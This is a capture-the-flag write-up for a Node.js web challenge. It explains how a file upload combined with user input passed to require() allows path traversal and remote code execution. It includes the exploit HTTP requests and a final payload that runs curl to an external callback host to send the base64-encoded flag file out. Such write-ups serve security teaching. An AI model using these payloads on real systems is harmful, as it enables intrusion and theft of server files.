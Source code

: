 # Day 01 - Generous Santa

- Category: Web
- Difficulty: Easy
- Format: Whitebox

## Description

The number of Santa's lunti has increased by 1337 this year, and there are a lot of them! 

Thanks to this, they've been able to give you some very, very nice gifts. If you can't find what you're looking for, you can even suggest gifts to him - maybe they'll make them in time!

## Writeup

**TLDR: NodeJS, Unrestricted file upload, arbitrary data in require(), RCE**

![HomePage](images/img1.png)

The application lets you view a list of products and add them to the sack. When a product is added in the sack, the following request is sent:

```bash
POST /api/add HTTP/1.1
Host: dyn-01.xmas.root-me.org:35584
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Referer: http://dyn-01.xmas.root-me.org:35584/
Content-Type: application/json
Content-Length: 21
Origin: http://dyn-01.xmas.root-me.org:35584
Connection: keep-alive
Priority: u=0

{
  "product": "Bugatti"
}
```

The API answer that the product has successfully been added.

Another page is available in /suggest, and allows you to suggets a new product to santa. To do this, you are invited to insert a name and a file.

![SuggestPage](images/img2.png)

On the file uploaded, the API returns the response:

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 109
ETag: W/"6d-GynmumcF4Qp305nkD9LebGh1Jyo"
Date: Tue, 10 Dec 2024 21:28:38 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{
  "message": "Thank you! Santa will consider your suggestion.",
  "photoPath": "/tmp/2024-12-10_21-28-38/test.png"
}
```

The API also return the absolute path of the file.

When digging the source code we discover a NodeJS application using EJS template engine.

```bash
$ tree
.
├── Dockerfile
├── README.md
├── docker-compose.yml
├── flag.txt
└── src
    ├── app.js
    ├── models
    │   ├── bugatti.js
    │   ├── iphone.js
    │   ├── macbook.js
    │   ├── ps5.js
    │   ├── rolex.js
    │   └── tesla.js
    ├── package.json
    ├── public
    │   ├── css
    │   │   └── style.css
    │   └── images
    │       └── background.jpg
    ├── routes
    │   └── hotte.js
    └── views
        ├── index.ejs
        └── suggest.ejs

7 directories, 17 files
```

The code to save a suggestion is the following :

```javascript
router.post('/suggest', upload.single('photo'), (req, res) => {
    const { name } = req.body;

    if (!name || !req.file) {
        return res.status(400).json({ message: 'Name and photo are required.' });
    }

    const now = new Date();
    const dateStr = now.toISOString().split('T')[0];
    const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
    const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);

    fs.mkdirSync(tempDir, { recursive: true });

    const tempPath = path.join(tempDir, req.file.originalname);

    fs.writeFile(tempPath, req.file.buffer, (err) => {
        if (err) {
            return res.status(500).json({ message: `Error saving the image: ${err.message}` });
        }
        res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
    });
});
```

The upload form doesn't seem to be vulnerable to path traversal and doesn't allow you to move up the tree.

The other function allows you to add a product to your bag.

```javascript
router.post('/add', async (req, res) => {
    const { product } = req.body;

    try {
        const Gift = require(`../models/${product.toLowerCase()}`); // <-- We control value in require()
        const gift = new Gift({ name: product, description: `Description of ${product}` });
        output = gift.store();
        res.json({ success: true, output: output });
    } catch (error) {
        res.status(500).json({ message: `Error adding the product ${product}. ${error.message}` });
    }
});
```

This function retrieves the "product" variable in POST, and includes the model corresponding to the product. To do this, the application use require() function, which allow to include Javascript source code.

The vulnerability is here because if we control the content put in `require()` we could include NodeJS source code (like include() in PHP).

Luckily we have an upload form on the application! So we'll be able to path traversal on our file.

So fist we can run the Docker locally and upload our file :

```bash
POST /api/suggest HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:3000/suggest
Content-Type: multipart/form-data; boundary=---------------------------6564490759844536652976844979
Content-Length: 346
Origin: http://127.0.0.1:3000
Connection: keep-alive
Priority: u=0

-----------------------------6564490759844536652976844979
Content-Disposition: form-data; name="name"

pouet
-----------------------------6564490759844536652976844979
Content-Disposition: form-data; name="photo"; filename="x.png"
Content-Type: image/jpeg

console.log("123");
-----------------------------6564490759844536652976844979--
```

The API returns our file has been uploaded to "/tmp/2024-11-28_9-38-43/x.png".

Then, we add a product to the sack and intercept the request and do the path traversal to the file uploaded :

```bash
POST /api/add HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Content-Type: application/json
Content-Length: 54
Connection: keep-alive
Priority: u=0

{
    "product": "../../../../tmp/2024-11-28_9-38-43/x.png"
}
```

The API returned an error `Gift is not a constructor` but the console.log has been executed. We can confirm by checking the container logs:

```bash
Attaching to app-1
app-1  | 
app-1  | > src@1.0.0 start
app-1  | > node app.js
app-1  | 
app-1  | Server is running on port 3000
app-1  | 123
```

We just have to repeat the operation by changing the console.log by a way to execute Remote Code Execution like this :

```javascript
const { exec } = require("child_process");

exec("curl https://aao1l4ngn7a95sv8bc0nk29r7id910pp.oastify.com/?c=$(cat /flag.txt|base64 -w0)", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

And we get the flag!

![Flag](images/img3.png)